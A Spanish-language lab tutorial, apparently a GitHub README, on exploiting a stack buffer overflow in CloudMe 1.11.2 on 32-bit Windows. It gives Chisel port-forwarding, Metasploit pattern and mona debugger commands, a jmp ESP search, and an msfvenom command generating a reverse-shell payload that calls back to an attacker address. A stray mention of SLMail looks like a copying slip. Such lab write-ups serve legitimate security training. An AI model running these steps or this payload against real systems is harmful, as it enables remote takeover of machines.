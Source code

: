 # Buffer Overflow Cloudme 1.11.2

Tutorial de buffer overflow en Windows de 32 bits con el programa Cloudme 1.11.2. Se hace uso de maquinas virtuales, una máquina con Parrot OS (máquina atacante) y otra con Windows 7 (máquina víctima).

Para usar Cludme es necesario crearse una cuenta 

![cloudme](./img/cloudme_reg.png)

Con Immunity Debugger y con la utilidad mona vamos a determinar el offset y direcciones de memoria para ejecutar nuestro shell code. 

Cloudme usa el puerto 8888 pero no está a la vista desde la máquina atacante para poder conectarnos haremos uso de la herramienta Chisel, que nos permite compartir puertos internos de la máquina victima a la máquina atacante. Hay que descargar Chisel según la versión de OS.

Una vez descargado Chisel, desde la máquina atacante ejecutar ``` ./chisel server -p puerto --reverse ```

![chisel_linux](./img/chisel_linux.png)

Y desde la máquina víctima 
```chisel.exe client IPMaquinaAtacante:puerto R:8888:127.0.0.1:8888 ```

![chisel_windows](./img/chisel_windows.png)

Para comprobar que efectivamente se nos ha compartido el puerto con el comandos ```lsof -i:8888 ```

![check_port](./img/check_port.png)

Con netcat podemos conectarnos al servicio

![nc_send_data](./img/nc_send_data.png)

Al enviar datos se puede acontecer el Buffer Overflow para obtener el offset con pattern create crearemos un patrón que será enviado y con Immunity Debugger obtendremos la dirección de la memoría del EIP

```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700 ```

![pattern_buffer](./img/pattern_buffer.png)

![pattern_buffer](./img/pattern_buffer_2.png)

En la máquina victima con Immunity Debugger (ejecutar como administrador) nos sincronizamos con Cloudme, se pausará el programa darle al botón de play para que se reanude el flujo del programa. Una vez sincronicados ejecutar el script.

![pattern_eip](./img/pattern_eip.png)

Con ``` pattern_offset -q dirección ``` se determina el offset con la dirección del EIP que se obtuvo en Immunity Debugger

![offset](./img/pattern_offset.png)

En este caso el offset es de 1052.

Comprobamos que sea el offset

![buffer_check](./img/buffer_check.png)

![eip_check](./img/eip_check.png)

Ahora se determina los badchars (carácteres que el programa no puede interpretar) con la utildad mona.py se facilita esta tarea. Para ello se debe copiar en ``` C:\Program Files\Immunity Inc\Immunity Debugger\Libs ```

Con el comando ``` !mona config -set workingfolder C:\Users\Usuario\Desktop\%p ``` se crea un directorio de trabajo 

![mona_folder](./img/mona_working_folder.png)

con ``` !mona bytearray ``` se generan dos archivo, uno de ellos bytearray.txt, que contiene los carácteres imprimibles.

![mona_bytearray](./img/mona_array.png)

Transferir el archivo bytearray.txt a la máquina atacante y añadir los carácteres en el script.

![badchards_script](./img/badchars.png)


Ejecutar el script y desde Immunity Debugger en el EIP se tiene una dirección, se ejecuta 
``` !mona compare -f C:\Users\Users\Desktop\Cloudme\bytearray.bin -a direccion ``` para obtener un badchar)

![badchars_esp](./img/badchars_esp.png)

![badchars_compare](./img/badchars_compare.png)
    
En este caso no hay badchars por lo que se puede generar directamente el shell code

``` 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.249.128 LPORT=443 -a x86 --platform windows -e x86/shikata_ga_nai -f c
```

![sheell_code](./img/shell_code.png)


Para que se logre interpretar el shell code se debe dar un salto al ESP, se busca la dirección a jmp ESP. Nasm_shell nos ayuda a obtener las direcciónes de instrucciones a bajo nivel en este caso la de jmp ESP.

```/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb```

![jmp_ESP](./img/jmp_esp.png)

Con ```!mona modules ``` se muestran los módulos de SLMail, se busca alguno que tenga Rebase, Safe, ASLR, NXCompat en "False". Se escoge qsqlite.dll

![mona_modules](./img/mona_modules.png)


Se busca la dirección de jmp ESP en el módulo con ```
!mona find -s "\xff\xe4" -m qsqlite.dll ``` y se comprueba la dirreción a jmp ESP

![find_jmp_addr](./img/find_jmp_esp.png)

![find_jmp](./img/esp_addr.png)

En el script de python se añade la dirección de jmp ESP pero al ser 32 bits se debe de estar en Little Endian. Para convertir a Little Endian se separa la dirección en pares y se inverte el orden ``` 6D619117 ->  1791616D ```

Y finalmente se añade NOPs ```\x90``` al payload y se ejecuta el script para obtener una reverse shell


![reverse_shell](./img/bof.png)



